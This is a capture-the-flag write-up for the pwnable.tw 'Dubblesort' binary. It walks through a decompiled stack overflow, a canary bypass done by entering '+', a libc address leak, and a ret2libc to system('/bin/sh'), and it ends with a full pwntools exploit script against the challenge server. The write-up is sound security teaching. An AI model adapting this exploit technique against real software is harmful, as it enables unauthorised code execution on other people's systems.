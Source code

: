 # Pwnable.tw - Dubblesort

* Website : Pwnable.tw
* Challenge : Dubblesort
* Writeup author : Redhung aka r3dhun9
>Contact :[Philip Chen (Facebook)](https://www.facebook.com/philip.chen.581)

## 0x00
If you cannot open the program with **LD_PRELOAD**, try to change your **ld version.** **(glibc version)**

If you don't have correspond glibc version, try to use this: [skysider/pwndocker](https://github.com/skysider/pwndocker)

First:
```
strings ./libc_32.so.6 | grep 2.2
```

I used glibc2.23 for this challenge.

And then:
```python
r = process(['/glibc/2.23/32/lib/ld-2.23.so','./dubblesort'], env={'LD_PRELOAD':'./libc_32.so.6'})
```

Now you can use gdb to calculate the correct offset ! :+1: 

## 0x01
The first thing we have to do is **checksec** :

![](https://i.imgur.com/HgbSyCQ.png)

Okay, it looks like a hard challenge.

Let's use **IDA Pro** to decompile the binary :
```c
int v3_sort_num;
int *num_array_ptr;
unsigned int count;
unsigned int v6_count;
size_t nbytes_num;
int reslut;
unsigned int sort_num;
int num_array[8]; //this could lead to buffer overflow
char name;
unsigned int canary;

canary = __readgsdword(0x14u);
sub_8B5();
__printf_chk(1, (int)"What your name:");
read(0, &name, 0x40u);
__printf_chk(1, (int)"Hello %s,How many numbers do you what to sort :");
__isoc99_scanf("%u", &sort_num);
if( sort_num )
{
    num_array_ptr = num_array;
    count = 0;
    do
    {
        __printf_chk(1, (int)"Enter the %d number : ");
        fflush(stdout);
        __isoc99_scanf("%u", num_array_ptr);
        ++count;
        v3_sort_num = sort_num;
        ++num_array_ptr;
    }
    while ( sort_num > count );
}
sort_func((unsigned int *)num_array, v3_sort_num);
puts("Result :");
if( sort_num )
{
    v6_count = 0;
    do
    {
        nbytes_num = num_array[v6_count];
        __printf_chk(1, (int)"%u ");
        ++v6_count;
    }
    while( sort_num > v6_count );
}
result = 0;
if ( __readgsdword(0x14u) != canary )
    sub_BA0();
return result;
```
We notice that num_array only store 8 numbers, while we can input more than 8 numbers to **sort_num**, and this leads to the buffer overflow.

Moreover, when I input unpredictable characters to the program, the program shows below:

![](https://i.imgur.com/U6CRSQb.png)

It seems like that we have a lot of fun things could do. :grin:

Look back to the IDA, this is a program which sorts our input value, however, it doesn't check the margin and the input value.

## 0x02
As we thought, we can input **'+'** or **'-'** to bypass the canary, and also we can modify the return address of main.

We don't have enough gadgets to do **ROP**, but we can calculate the **function_offset_to_libc_base** and then return to libc.

But how can we leak the address of libc ?

We notice that there are some ambiguous characters after our input name:

![](https://i.imgur.com/f7qYbLv.png)

It looks like **' redhung \n (ambiguous characters) '**

This could help us to leak the libc address.(You can calculate the offset by **gdb** using **vmmap** and **x/50wx $esp**)

We can use **xxd** to find the /bin/sh in the libc.

> **Notice: When we retrieve the leak address, we must sub 0x0a to get the correct address. 0x0a is \n.**

> **Notice2: num[24] is canary, num[32] is return address, num[33] is saved return address of our modified function, num[34] is /bin/sh.**

## 0x03
Exploit:
```python
from pwn import *

#r = process(['/glibc/2.23/32/lib/ld-2.23.so','./dubblesort'], env={'LD_PRELOAD':'./libc_32.so.6'})

r = remote('chall.pwnable.tw',10101)

ret = 33

canary = 25

libc_system_offset = 0x3a940

libc_base_offset = 0x1b0000

libc_binsh_offset = 0x158e8b

r.sendline('a'*24)

leak = u32(r.recvuntil(',').strip(',')[46:50])

leak = leak - 0x0a

print(hex(leak))

libc_base = leak - libc_base_offset

libc_system = int(libc_base + libc_system_offset)

libc_binsh = int(libc_base + libc_binsh_offset)

r.sendline('35')

for i in range(24):
    r.sendline('1')

r.sendline('+')

num = -294967295

for i in range(7):
    r.sendline(str(num))
    num = num-1

r.sendline(str(libc_system))

r.sendline(str(libc_system+1))

r.sendline(str(libc_binsh))

r.interactive()
```
